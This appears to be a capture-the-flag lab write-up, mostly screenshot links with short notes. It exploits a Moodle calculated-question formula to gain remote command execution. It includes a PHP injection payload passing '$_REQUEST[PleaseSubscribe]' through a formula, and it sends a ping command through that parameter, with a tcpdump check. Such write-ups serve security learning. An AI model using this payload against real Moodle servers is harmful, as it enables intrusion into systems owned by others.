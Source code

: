 ![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556688943064_image.png)


submitted:

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556688985217_image.png)


*error regarding the semicolon, removed all semicolons and change the grade to 100%*

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556689121749_image.png)


(results)

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556689145363_image.png)


*formula seems to have been taken over at this point but has an error in syntax.*

Searching around the question bank contains old questions from the creation of the box.

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556689242266_image.png)


investigating creator formulas to discover exactly how they passed the request:

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556689292122_image.png)


Modifying original request and adding information from our sample:

    $str= /*{a*/'$_REQUEST[PleaseSubscribe]';//{x}};

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556689607748_image.png)

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556689626465_image.png)


*resulted in the REQUEST being passed by the moodle web-app.*


## burp the REQUEST to RCE

Burp that exact request and sent to repeater and adding to send an ICMP packet:

    ...&PleaseSubscribe=ping+-c+1+10.10.14.3

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556689861084_image.png)

setup tcpdump to capture the packet:

    tcpdump -i tun0 -n icmp

*-n = no dns resolution*

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556689989773_image.png)


